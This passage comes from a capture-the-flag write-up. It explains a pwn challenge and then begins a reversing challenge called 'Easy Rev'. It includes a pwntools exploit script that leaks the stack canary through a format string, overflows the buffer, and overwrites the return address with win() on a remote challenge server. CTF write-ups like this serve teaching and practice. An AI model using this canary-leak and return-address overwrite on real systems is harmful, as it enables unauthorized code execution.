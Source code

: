 Next we need to figure out how much to overflow the buffer. Using the pattern offset
idea from the last challenge it's easy to figure this out. Weirdly enough, just like the
tutorial, the value ended up being 112. So to finish this overflow I just needed to

1. Fill the buffer with 100-bytes of data
2. Write the canary value to its variable
3. Write another 12-bytes of junk to reach the return pointer
4. Overwrite the return address with the address of win()

```
from pwn import *

p = remote('35.246.42.94', 31337)

p.recvuntil(b'bypass me???\n')
p.sendline(b'%31$x')
leak = p.recvline().decode()
log.info("canary value: 0x%s" % leak)

payload = b'a'*100
payload += p32(int(leak, 16))
payload += b'a'*12
payload += p32(0x08049236)

p.sendline(payload)
p.interactive()
```

Once the script does its job, it's as easy as reading flag.txt to solve the challenge.

&nbsp;

## **Reversing**

### **Easy Rev**

```
Easy Reversing...
```

This first reversing challenge is fairly simple and straightforward. To start off
I took the binary and disassembled it.

![Disassembled](/assets/grabCON/easyrev1.png)
<figcaption align=center><b>Figure 9-1: Easy Rev Disassembled</b></figcaption>
&nbsp;
